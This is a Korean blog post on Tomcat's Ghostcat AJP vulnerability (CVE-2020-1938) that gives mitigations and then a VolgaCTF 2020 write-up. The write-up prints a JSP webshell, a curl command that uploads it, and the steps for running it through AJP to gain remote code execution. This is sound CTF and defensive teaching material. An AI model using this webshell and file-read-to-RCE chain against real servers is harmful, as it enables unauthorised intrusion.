









_Ghostcat logo created by 차이틴 테크(Chaitin Tech)_

> # 취약점 개요
>
> Apache Tomcat에서 기본으로 제공하던 AJP(Apache JServ Protocol) Connector에 취약점이 발견하게 되어 이를 통해 인증없이 Tomcat서버의 **webapp목록 하위에 있는 모든 파일을 읽을 수 있습니다.**
>
> 또한 파일 업로드가 가능한 서버라면 **RCE(Remote Code Execution)** 공격으로도 이어질 수 있습니다.
>
> 이 취약점이 가능해진 이유는 기본적으로 AJP Connector가 활성화 되는 것이 기본으로 설정되어 있고 또한 모든 IP 주소에 대해 허가를 하고 있어 심각도가 높습니다.

### 취약한 버전 목록

| Apache Tomcat 버전 | 취약한 버전      | 수정된 버전                  |
| ------------------ | ---------------- | ---------------------------- |
| Apache Tomcat 9    | 9.0.30 and below | 9.0.31                       |
| Apache Tomcat 8    | 8.5.50 and below | 8.5.51                       |
| Apache Tomcat 7    | 7.0.99 and below | 7.0.100                      |
| Apache Tomcat 6    | ALL              | 지원 종료되어 **패치 없음**. |

이 취약점은 대부분의 Tomcat 버전에 대해 취약점을 가지고 있고 그 심각도도 높아 주의를 기울어야 합니다.

### 대응 방법

1. **최신 버전의 Tomcat으로 업데이트**

   최신 버전의 Tomcat은 기본적으로 AJP를 비활성화 시켜두었고 또한 추가적인 검증 절차를 통하기 때문에 최신 버전의 Tomcat으로 업데이트를 권장 합니다.

2. **AJP Connector를 사용 하지 않을 경우 AJP 비활성화**

   `conf/server.xml` 파일에서 AJP Connector 설정 부분을 주석 처리 하여 비활성화 합니다.

   ```xml
   <!-- <Connector port="8009" protocol="AJP/1.3" redirectPort="8443" > -->
   ```

3. **AJP Connector를 사용하는 경우 requiredSecret 옵션을 추가하여 인증이 된 연결만 허가**

   ```xml
   <Connector port="8009" protocol="AJP/1.3" redirectPort="8443" address="허용하는 IP" requiredSecret="Secret" >
   ```

### POC 코드

https://github.com/w4fz5uck5/CVE-2020-1938-Clean-Version

> _POC 코드는 테스트 용도로만 사용이 되어야 합니다. 실제 서비스 중인 서버에 사용을 하는 것은 분명한 공격행위 입니다. 모든 행동에 대한 책임은 본인에게 있다는 것을 주의 하시길 바랍니다._

이제 이러한 취약점이 어떻게 공격으로까지 이루어 질 수 있는지 **VolgaCTF 2020 Qualifier**의 `NetCorp` 문제를 가지고 설명 하겠습니다.

# VolgaCTF 2020 Qualifier - NetCorp WriteUp



공격 대상의 웹 서버입니다. 공격 서버의 정보 수집을 위해 `DirBurster` 을 사용하여 정보를 수집합니다.



접근이 가능한 경로에 `/docs` , `/examples` 라는 경로가 보입니다.



접근을 해보면 Tomcat의 기본 안내 문서와 예제가 그대로 노출 되어 있습니다. 또한 여기서 버전 정보가 노출이 되는데 이 버전은 위에서 설명한 `Ghoscat (cve-2020-1938, CNVD-2020-10487)` 취약점 대상입니다.

`Nmap` 이용하여 실제로 AJP PORT 8009가 열려 있는지 확인 합니다.



실제로 `8009` 포트가 열려 있는 것을 확인 했습니다.

POC 코드를 이용하여 정상적인 방법으로는 읽을 수 없는 `WEB-INF/web.xml` 에 대해 요청 해봅니다.

```xml
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>NetCorp</display-name>


  <servlet>
  	<servlet-name>ServeScreenshot</servlet-name>
  	<display-name>ServeScreenshot</display-name>
  	<servlet-class>ru.volgactf.netcorp.ServeScreenshotServlet</servlet-class>
  </servlet>

  <servlet-mapping>
  	<servlet-name>ServeScreenshot</servlet-name>
  	<url-pattern>/ServeScreenshot</url-pattern>
  </servlet-mapping>


	<servlet>
		<servlet-name>ServeComplaint</servlet-name>
		<display-name>ServeComplaint</display-name>
		<description>Complaint info</description>
		<servlet-class>ru.volgactf.netcorp.ServeComplaintServlet</servlet-class>
	</servlet>

	<servlet-mapping>
		<servlet-name>ServeComplaint</servlet-name>
		<url-pattern>/ServeComplaint</url-pattern>
	</servlet-mapping>

	<error-page>
		<error-code>404</error-code>
		<location>/404.html</location>
	</error-page>


</web-app>
```

파일을 성공적으로 읽어 들인 것을 확인 할 수 있습니다. `/WEB-INF/web.xml` 파일을 확인 해보면 특정 주소에 대해 서블릿이 맵핑이 되어 있고 `servlet-class` 명이 나와 있는 것을 확인 할 수 있습니다.

이때 이 이름을 정보로 하여 클래스 파일을 가져옵니다.

`ru.volgactf.netcorp.ServeScreenshotServlet` => `/WEB-INF/classes/ru/volgactf/netcorp/ServeScreenshotServlet.class`

`ru.volgactf.netcorp.ServeComplaintServlet` => `/WEB-INF/classes/ru/volgactf/netcorp/ServeComplaintServlet.class`

Java Decompiler를 통해 class 파일을 분석합니다.

`ru.volgactf.netcorp.ServeScreenshotServlet.class`

```java
import java.io.IOException;
import javax.servlet.ServletConfig;
import javax.servlet.ServletException;
import javax.servlet.annotation.MultipartConfig;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

@MultipartConfig
public class ServeComplaintServlet extends HttpServlet {
  private static final long serialVersionUID = 1L;

  private static final String SAVE_DIR = "uploads";

  public ServeComplaintServlet() {
    System.out.println("ServeScreenshotServlet Constructor called!");
  }

  public void init(ServletConfig config) throws ServletException {
    System.out.println("ServeScreenshotServlet \"Init\" method called");
  }

  public void destroy() {
    System.out.println("ServeScreenshotServlet \"Destroy\" method called");
  }

  protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {}

  protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {}
}
```

이 파일은 get, post 두가지 방식 모두 아무것도 하지 않기 때문에 분석을 멈추고 넘어 갔습니다.

`ru.volgactf.netcorp.ServeComplaintServlet.class`

```java
import java.io.File;
import java.io.IOException;
import java.io.PrintWriter;
import java.math.BigInteger;
import java.security.MessageDigest;
import java.security.NoSuchAlgorithmException;
import javax.servlet.ServletConfig;
import javax.servlet.ServletException;
import javax.servlet.annotation.MultipartConfig;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.Part;
import ru.volgactf.netcorp.ServeScreenshotServlet;

@MultipartConfig
public class ServeScreenshotServlet extends HttpServlet {
  private static final String SAVE_DIR = "uploads";

  public ServeScreenshotServlet() {
    System.out.println("ServeScreenshotServlet Constructor called!");
  }

  public void init(ServletConfig config) throws ServletException {
    System.out.println("ServeScreenshotServlet \"Init\" method called");
  }

  public void destroy() {
    System.out.println("ServeScreenshotServlet \"Destroy\" method called");
  }

  protected void doPost(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String appPath = request.getServletContext().getRealPath("");
    String savePath = appPath + "uploads";
    File fileSaveDir = new File(savePath);
    if (!fileSaveDir.exists())
      fileSaveDir.mkdir();
    String submut = request.getParameter("submit");
    if (submut == null || !submut.equals("true"));
    for (Part part : request.getParts()) {
      String fileName = extractFileName(part);
      fileName = (new File(fileName)).getName();
      String hashedFileName = generateFileName(fileName);
      String path = savePath + File.separator + hashedFileName;
      if (path.equals("Error"))
        continue;
      part.write(path);
    }
    PrintWriter out = response.getWriter();
    response.setContentType("application/json");
    response.setCharacterEncoding("UTF-8");
    out.print(String.format("{'success':'%s'}", new Object[] { "true" }));
    out.flush();
  }

  private String generateFileName(String fileName) {
    try {
      MessageDigest md = MessageDigest.getInstance("MD5");
      md.update(fileName.getBytes());
      byte[] digest = md.digest();
      String s2 = (new BigInteger(1, digest)).toString(16);
      StringBuilder sb = new StringBuilder(32);
      for (int i = 0, count = 32 - s2.length(); i < count; i++)
        sb.append("0");
      return sb.append(s2).toString();
    } catch (NoSuchAlgorithmException e) {
      e.printStackTrace();
      return "Error";
    }
  }

  private String extractFileName(Part part) {
    String contentDisp = part.getHeader("content-disposition");
    String[] items = contentDisp.split(";");
    for (String s : items) {
      if (s.trim().startsWith("filename"))
        return s.substring(s.indexOf("=") + 2, s.length() - 1);
    }
    return "";
  }
}

```

분석을 해보면 이 서블릿과 맵핑이된 `/ServeScreenshot` 으로 post 방식의 파일 업로드 요청과 파라미터로 `submit=true` 값이 들어오게 되면 그 파일을 `/uploads` 밑에 저장을 하게 되는데 이때 이름은 올릴때 사용한 이름의 MD5 값으로 하여 파일을 저장 합니다.

이것을 통해 `Ghostcat` 취약점을 이용한 `RCE` 공격의 조건이 성립 되었습니다.

이제 아래의 내용이 작성된 JSP 웹쉘을 업로드 합니다.

```java
<% page import="java.io.*" %>
<%
  try {
        Process child = Runtime.getRuntime().exec("ls -la");
        InputStream in = child.getInputStream();
        int c;
        while ((c = in.read()) != -1) {
            out.print((char)c);
        }
        in.close();
        try {
            child.waitFor();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
    } catch (IOException e) {
        System.err.println(e);
    }
%>
```

```sh
curl -i -X POST -F 'file=@/root/cmd.jsp' http://netcorp.q.2020.volgactf.ru:7782/ServeScreenshot?submit=true
```



이제 `/uploads/2079f2ab870589bf5c5ddc9ac5030097` (cmd.jsp md5 hash 값)을 ajp로 요청 하여 RCE 합니다.

이때 POC 코드를 조금 수정을 합니다. 기존 POC 코드는 파일을 읽어들이고 실제로 JSP 파일로써 실행이 불가능 하게 되어 있는데 이때 요청 하는 uri를 `/index.jsp` 같이 jsp 확장자로 인식하도록 합니다.



이제 실행을 합니다.



파일을 보니 flag.txt가 존재 하는 것이 보입니다. 이제 명령을 수정 해서 다시 업로드를 하고 다시 실행합니다.



> VolgaCTF{qualification_unites_and_real_awesome_nothing_though_i_need_else}

---

실제로 CTF 문제를 통해 공격을 해보았는데 실제 서비스 하고 있는 서버에도 가능한 공격 시나리오여서 놀랐고 현재 취약점이 나온지 얼마 안되어 `1-Day` 취약점으로 사용될 가능성이 높아 주의를 가지고 확인해야 할 것 같다.
